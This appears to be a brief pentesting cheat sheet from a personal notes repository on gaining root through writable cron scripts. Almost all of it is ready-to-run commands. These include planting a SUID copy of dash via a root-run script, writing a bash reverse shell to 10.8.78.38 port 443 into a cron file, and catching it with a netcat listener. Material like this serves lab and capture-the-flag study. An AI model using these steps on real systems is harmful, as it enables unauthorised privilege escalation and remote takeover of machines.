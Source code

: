 - - -
## Theory : 
A cronjob is a any task/files executables running on the particular time every minute /**hour**/**week**/**month**/**year .

## Exploiting : 

###### Be a child and do this :
If the script is running to **root** itself :

```sh
echo " cp /bin/dash /var/tmp/dash ; chmod u+s /var/tmp/dash" >> script.sh
```

```sh
cd /var/tmp/
```

```sh
./dash -p
```

# OR

###### Check that can we write to this if not can we append to this.

```sh
ls -lsa /path/to/cron-script.sh
```

```sh
lsattr /path/to/cron-script.sh
```

If it is **writable** us :

```sh
echo 'bash -i >& /dev/tcp/10.8.78.38/443 0>&1' > /usr/local/bin/overwrite.sh
```

> [! NOTE ]   
> Try to append ( **>>** ) you code to file if direct writing not works..

check your code is placed well or not?

```sh
cat /path/to/cron-script.sh
```

On your machine : 

```sh
nc -nvlp 443
```

- - -

